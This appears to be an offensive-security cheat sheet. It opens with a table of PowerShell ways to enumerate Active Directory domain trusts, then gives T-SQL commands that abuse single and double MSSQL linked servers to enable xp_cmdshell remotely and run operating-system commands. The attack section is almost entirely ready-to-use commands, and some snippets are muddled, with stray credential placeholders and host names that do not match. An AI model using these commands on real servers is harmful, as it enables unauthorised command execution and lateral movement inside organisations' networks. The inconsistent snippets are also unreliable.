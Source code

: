 
### Summary

| **Method**                       | **Approach**                                         | **Tools**                            | **Pros**                                                     |
|-----------------------------------|-----------------------------------------------------|--------------------------------------|--------------------------------------------------------------|
| **PowerShell with Get-ADTrust**   | Uses built-in cmdlet to get domain trust information | Active Directory PowerShell Module   | Easiest and most straightforward method for AD environments   |
| **PowerShell with WMI**           | Queries trust info using WMI objects                | Get-WmiObject                        | Can be used without RSAT or AD module                         |
| **PowerShell with .NET Classes**  | Uses .NET Active Directory classes directly          | .NET in PowerShell                   | Provides fine-grained control over the AD trust enumeration   |
| **PowerShell with LDAP Queries**  | Directly queries trustedDomain objects via LDAP      | System.DirectoryServices in PowerShell | LDAP-based for environments where LDAP is preferable          |

All these methods can be run from PowerShell and provide various ways of retrieving domain trust information depending on what tools you have available. The `Get-ADTrust` method is the simplest and most efficient if you have the Active Directory module installed.


### Linked MSSQL

* single linked
```sql
username
password
mssql01.example.com
master
EXEC sp_linkedservers
select myuser from openquery("mssql.example2.com", 'select system_user as myuser')
EXEC ('EXEC sp_configure ''show advanced options'', 1; RECONFIGURE; EXEC sp_configure ''xp_cmdshell'', 1; RECONFIGURE;') AT [mssql.example2.com];
EXEC ('EXEC xp_cmdshell ''whoami'';') AT [mssql.example2.com];

```

- Double linked 
```sql
password
mssql.sub.dc.com
master
EXEC sp_linkedservers
select myuser from openquery("rdc01.corp1.com", 'select system_user as myuser')
SELECT * FROM OPENQUERY([dc01.dc2.com], 'EXEC sp_linkedservers');
SELECT * FROM OPENQUERY([mssql.dc.com], 'SELECT IS_SRVROLEMEMBER(''sysadmin'') AS IsSysadmin FROM OPENQUERY([dc01.dc2.com], ''SELECT IS_SRVROLEMEMBER(''''sysadmin'''')'')')
EXECUTE ('EXECUTE (''sp_configure ''''xp_cmdshell'''', 1; RECONFIGURE;'') AT [dc01.corp2.com]') AT [mssql01.dc.com]
EXEC ('EXEC (''EXEC xp_cmdshell ''''whoami'''';'') AT [dc01.dc2.com]') AT [mssql.dc.com];
```